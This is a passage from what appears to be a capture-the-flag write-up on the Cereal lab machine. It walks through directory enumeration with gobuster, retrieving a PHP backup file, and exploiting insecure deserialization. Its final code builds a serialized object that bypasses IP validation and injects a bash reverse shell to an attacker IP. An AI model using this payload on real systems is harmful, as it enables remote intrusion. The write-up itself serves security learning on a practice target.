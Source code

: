 Unafortunately, we were not able to find out some to do an *exploit*.
Let's do a **Reconnaissance** more robust.
```shell
gobuster dir -u http://secure.cereal.ctf:44441/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20
```
![[Pasted image 20230731182653.png]]
___
Good!, we were able to discover the **back_en** directory. Let's see that webpage.
The **back_en** webpage, responds with status code **403**, forbidden.
![[Pasted image 20230731182918.png]]
___
But, we can **enumerate** this directory again.
```shell
gobuster dir -u http://secure.cereal.ctf:44441/back_en -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php
```
- `-x php`: Specifies the file *extension* (`.php`).
![[Pasted image 20230731183447.png]]
___
Nothing, but sometimes a few backup files contains the extension `.php.bak`, let's use that file extension.
```shell
gobuster dir -u http://secure.cereal.ctf:44441/back_en -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php.bak
```
![[Pasted image 20230731183521.png]]
___
We are going to see the content of **index.php.bak**.
![[Pasted image 20230731183632.png]]
___
Let's see its content better.
```shell
curl -s -X GET "http://secure.cereal.ctf:44441/back_en/index.php.bak" | cat -l js
```
![[Pasted image 20230731183837.png]]
We can see two *interesting* functions **validate()** and **ping()**.
___
First, the default value of `isValid` variable is **False**. Thus, never the `ping()` function will be called unless the `validate()` function verifies if the `ipAddress` variable is **VALID**.
So, we as attackers could invert the default value of `isValid` variable to *bypass* the IP validation, since, always will be **True**.
And, how do we do that?
- Further down in the code, you can note that there is a **condition** to create a *object* from **obj** sent by means of POST data.
- Now, you could think by serializing a **CUSTOM** `pingTest` *class* and send it by means of POST, then, that condition will create a *class* with our custom data.
- And finally, the server will call to the `validate()` function with our **CUSTOM** class created.
Let's do the above, we will create the *class* that contains our **CUSTOM** data.
*customClass.php*
```php
<?php

class pingTest {
	public $ipAddress = "; bash -c 'bash -i >& /dev/tcp/192.168.200.128/4646 0>1&'";
	public $isValid = True;
	public $output = "";
}

echo urlencode(serialize(new pingTest));
//echo serialize(new pingTest);
```